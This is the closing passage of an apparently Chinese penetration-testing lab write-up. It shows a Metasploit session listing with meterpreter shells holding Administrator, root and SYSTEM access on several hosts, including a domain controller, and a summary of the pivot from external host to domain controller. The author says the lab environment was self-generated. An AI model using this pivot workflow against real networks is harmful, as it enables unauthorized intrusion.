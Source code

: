 ```
IPv6 Netmask : ffff:ffff:ffff:ffff:ffff:ffff:ffff:ffff
```
至此，我们已经成功地拿下了所有实验环境下的主机控制权限。
```
msf exploit(psexec) > sessions

Active sessions
===============

  Id  Name  Type                     Information                               Connection
  --  ----  ----                     -----------                               ----------
  2         meterpreter x64/windows  MONITOR\Administrator @ MONITOR           10.0.0.5:4444 -> 10.0.0.9:51800 (10.0.0.9)
  4         meterpreter x64/linux    uid=0, gid=0, euid=0, egid=0 @ 10.0.1.11  10.0.0.5-10.0.0.9:0 -> 10.0.1.11:4444 (10.0.1.11)
  5         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ IT-MANAGE-PC        10.0.0.5-10.0.0.9:0 -> 10.0.1.26:4444 (10.0.1.26)
  6         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ DC                  10.0.0.5-_1_-10.0.0.9:0 -> 10.0.1.7:4444 (10.0.1.7)
```

# 0x02 小结
本文重点介绍了一个相对完整的内网渗透过程(即：外网主机-内网主机-内网域内主机-内网域控服务器)。当然，这只是个简单的实验环境，实际实战中遇到的情况会比这复杂很多(比如：各种反病毒程序的bypass，内网反入侵系统的检测的绕过等等)，但是基本思路和方法都是类似和相通的。另外，因笔者水平有限，文中表达不当或者不正确的地方，也敬请谅解和指正。

另，本文中所使用的实验环境是由笔者专门开发的弹性内网渗透系统随机生成的，支持随机组网和动态生成模拟内网环境。
